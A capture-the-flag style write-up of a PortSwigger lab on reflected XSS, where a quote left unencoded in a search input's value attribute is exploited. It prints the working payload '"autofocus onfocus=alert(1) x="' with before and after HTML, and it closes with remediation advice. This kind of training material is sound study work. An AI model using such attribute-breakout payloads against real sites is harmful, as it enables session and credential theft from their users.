



# LAB 07 -  Reflected XSS into attribute with angle brackets HTML-encoded

## Lab Information

- **Category:** Cross-Site Scripting (XSS)
- **Type:** Reflected XSS 
- **Difficulty:** Apprentice
- **Status:** ✅ Solved
- **Date:** 2026-8-22

---


---

# Table of Contents

- Executive Summary
- Lab Information
- Objective
- Vulnerability Overview
- Attack Prerequisites
- Environment & Scope
- Methodology
- Discovery Process
- Technical Analysis
- Payload Analysis
- Exploitation Flow
- Evidence
- Impact
- Root Cause
- Risk Assessment
- Remediation
- Lessons Learned
- References
- Screenshots

---

# Executive Summary

A Reflected XSS vulnerability was identified in this lab, involving angle bracket encoding.

Since the search input is located within the `input` attribute and the quotation mark is not encoded, we were able to close the `value` attribute and inject an `autofocus` event containing an `alert` function.

---

# Objective

The goal of this lab is to exploit a "Reflected" Cross-Site Scripting (XSS) vulnerability by closing the search input's `value` attribute and injecting an `autofocus` event that triggers an `alert`.

---

# Vulnerability Overview

A reflected Cross-Site Scripting (XSS) vulnerability occurs when user-controlled input is included in the HTML response without proper output encoding, allowing the browser to interpret the input as executable code.

---


# Attack Requirements

- User input is reflected in the HTTP response.
- Weak output encryption
- Allow execution of JavaScript functions
  
---

# Environment & Scope

| Item              | Value |
|-------------------|-------|
| Target            | PortSwigger Web Security Academy lab |
| HTTP Method       | GET |
| Injection Context | HTML Attribute Context |
| Client            | Web Browser |

---

# Methodology

1. Open the vulnerable lab.
2. Enter a test value into the search field.
3. Intercepting the request using Burp Suite
4. Experiment with value locking using "
5. Note: Quotation marks are not encoded.
6. Add an event to the property containing the `alert` function.
7. Reload the page
8. Execution of the function and successful completion of the operation

---

# Discovery Process

### Step 1 — Testing the search value

```text
mohamad
```

The search value "mohamad" is added within the tag "


### Step 2 — Value-locking experiment


```text
mohamad"
```
We observe that the value has been enclosed using quotation marks—meaning the quotation mark itself is not encoded.

### Step 3 — Event addition test

```html
mohamad"autofocus onfocus=alert(1) x="
```
After closing the `value` attribute, we added an `alert` event inside it that executes when the page loads.

---

# Technical Analysis

The value of the search feature at the outset:

```html
<input type=text placeholder='Search the blog...' name=search value="mohamad">
```
The search value is placed within the "..." mark.


### After Injection

```html
<input type=text placeholder='Search the blog...' name=search value=mohamad"autofocus onfocus=alert(1) x=">
```
After closing the `value` attribute, we added an `alert` event inside it that executes when the page loads.

---

# Context Analysis

| Property | Value |
|---|---|
| Injection Context | HTML Attribute Context  |
| Encoding | Angle bracket encoded |
| Reflection Type | Reflected |
| URL Scheme Validation | None |
| Payload Type | "autofocus onfocus=alert(1) x=" |

---

# Payload Analysis

## Payload Used

```html
"autofocus onfocus=alert(1) x="

```

## Why This Payload Works

```html
"
```
It closes the value.

```html
autofocus onfocus
```
An event triggered when the page loads.

```html
alert(1)
```
A function that displays a message in the center of the page based on the content placed within the parentheses; this indicates successful injection.

```html
x="
```
To close the new event we added

---

# Exploitation Flow

```text
Attacker
   │
   ▼
Standard search
   │
   ▼
BurbSuite
   │
   ▼
Closing value
   │
   ▼
autofocus
   │
   ▼
onfocus
   │
   ▼
alert(1)
  
```

---

# Evidence

## HTML Before Injection

```html
<input type=text placeholder='Search the blog...' name=search value="mohamad">
```

---

## HTML After Injection

 ```html
<input type=text placeholder='Search the blog...' name=search value=mohamad"autofocus onfocus=alert(1) x=">

 ```

After closing the `value` attribute, we added an `alert` event inside it that executes when the page loads.


## Result

```text
        "
        ↓
autofocus onfocus=alert(1) x="
        ↓
Event Execution
        ↓
The Appearance of the Message
```
---

# Impact

- Session hijacking
- Cookie theft (if cookies are not protected with HttpOnly)
- Credential theft
- Phishing
- Defacement
- Performing actions as the victim
 
---

# Root Cause

The application reflects user-controlled input into the HTML response without proper output encoding or sanitization.

---

# Risk Assessment

| Item | Value |
|------|-------|
| Severity |  Context-dependent |
| CVSS Score | Not calculated |
| CWE | CWE-79: Improper Neutralization of Input During Web Page Generation |
| OWASP Category | Cross-Site Scripting (XSS) |
| Exploitability | Demonstrated in lab |
| Business Impact | Theft of customer accounts and sensitive data , Financial fraud and theft of funds , Reputational damage and loss of trust , Legal Fines and Penalties , Business disruption and incident response costs|

---

# Remediation

- Output Encoding : is a security technique that converts unsafe data into a safe, plain format before displaying it to the user. Its goal is to prevent the browser from executing malicious code and to protect websites against injection attacks, such as Cross-Site Scripting (XSS).
- Input Validation : The process of verifying and confirming that input data meets the required criteria, is secure, and is in the correct format before being processed by the system.
- Content Security Policy (CSP) : A web security standard that enables website owners to control the resources a browser is permitted to load and execute.
- HttpOnly Cookies : A special type of cookie that cannot be accessed by JavaScript code.
- Secure Frameworks : Use frameworks that automatically escape HTML output.
  
---

# Lessons Learned

- Even if encoding is present, if it is weak, it can be exploited to execute an XSS attack.
- HTML encoding prevents browser interpretation.
- XSS targets the client, not the server.
- Understanding HTML context is essential.
  
---

# References

- OWASP
- PortSwigger Web Security Academy
- MITRE CWE
- CVSS Specification

---

# Screenshots

## Initial Page



...

## Payload Injection



...

## Successful Alert



---

# Execution Condition

- User input is reflected in the HTTP response.
- Weak output encryption
- Allow execution of JavaScript functions

---

# Conclusion

This practical experiment demonstrated the existence of a reflected XSS vulnerability, even when angle brackets (`<>`) are encoded; this is because JavaScript functions can be executed via event handlers within HTML attributes. Therefore, robust encoding is essential, and user input should never be trusted.

